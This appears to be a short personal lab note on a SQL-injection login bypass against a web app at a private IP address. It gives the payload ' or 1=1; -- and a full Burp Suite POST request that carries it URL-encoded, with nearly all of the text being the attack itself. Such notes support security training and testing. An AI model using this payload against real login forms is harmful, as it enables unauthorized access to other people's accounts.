 
![[Pasted image 20231108091949.png]]


# Login SQL-Injection  as User (Role: Customer)

## Browser
Username: egal
Password: ``` ' or 1=1; --  ```

## Burp Suite

```
POST /routers/router.php HTTP/1.1
Host: 10.0.68.105
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://10.0.68.105
Connection: close
Referer: http://10.0.68.105/login.php
Cookie: PHPSESSID=ldhu662ju9tu9ke4a00isemnfj
Upgrade-Insecure-Requests: 1

username=test&password=%27+or+1%3D1%3B+--+
```

![[Pasted image 20231210165948.png]]